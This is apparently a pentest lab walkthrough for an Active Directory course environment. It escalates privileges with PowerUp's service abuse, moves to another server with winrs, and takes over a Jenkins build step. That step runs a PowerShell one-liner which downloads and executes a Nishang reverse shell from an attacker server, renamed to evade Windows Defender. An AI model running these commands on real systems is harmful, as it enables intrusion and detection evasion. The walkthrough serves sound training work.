 # 🆙 Elevate Privileges & gain a shell

Task&#x20;

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.&#x20;

• Identify a machine in the domain where studentx has local administrative access.&#x20;

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

***

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

He's where we are in our enumeration according a guy on discord:

> you're local admin on the studentvm machine, then you use the Find-PSRemotingLocalAdminAccess to discover you have rights to connect to dcorp-adminsrv (via winrs or PSRemoting)

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

<figure><img src="../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>

So we were able to get a shell on dcorp-adminsrv

&#x20;

<figure><img src="../../.gitbook/assets/image (1085).png" alt=""><figcaption></figcaption></figure>

***

Now let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```

<figure><img src="../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>
